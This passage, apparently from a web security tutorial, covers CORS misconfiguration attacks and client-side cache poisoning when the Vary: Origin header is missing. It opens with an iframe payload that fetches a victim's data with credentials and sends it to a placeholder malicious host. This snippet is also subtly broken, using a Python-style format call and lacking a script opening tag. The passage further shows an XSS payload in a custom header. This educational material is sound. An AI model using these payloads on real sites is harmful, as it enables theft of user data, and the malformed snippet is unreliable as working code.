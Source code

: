 ```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
fetch('https://vulnerable-website.com/sensitive-victim-data', {
    credentials: 'include'
})
    .then((response) => {
        document.location = '//malicious-website.com/log?key={0}'.format(response.text());
    });
</script>"></iframe>
```

## Vary: Origin and client-side cache poisoning

The CORS specification instructs developers specify `Origin` in the `Vary` response header whenever `Access-Control-Allow-Origin` headers are dynamically generated.

```http
Vary: Origin
```

That might sound pretty simple, but immense numbers of developers forget, including the [W3C itself](https://lists.w3.org/Archives/Public/public-webappsec/2016Jun/0057.html). 

Suppose an application reflects the contents of a custom header without encoding (reflected XSS in a custom HTTP header):

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-User-id: <svg/onload=alert(1)>

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-User-id
Content-Type: text/html
...

Invalid user: <svg/onload=alert(1)>
```

Without CORS, this is impossible to exploit as there is no way to make someone's browser send the `X-User-id` header cross-domain. 

With CORS, you can make them send this request. By itself, that is useless since the response containing injected JavaScript will not be rendered. However, if `Vary: Origin` has not been specified the response may be stored in the browser's cache and displayed directly when the browser navigates to the associated URL.

# References

- [MDN Web Docs: Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [MDN Web Docs: Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [Portswigger Research: Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [Writeup: Tricky CORS Bypass in Yahoo! View](https://www.corben.io/tricky-CORS/)
- [Report: SOP bypass using browser cache](https://hackerone.com/reports/761726)
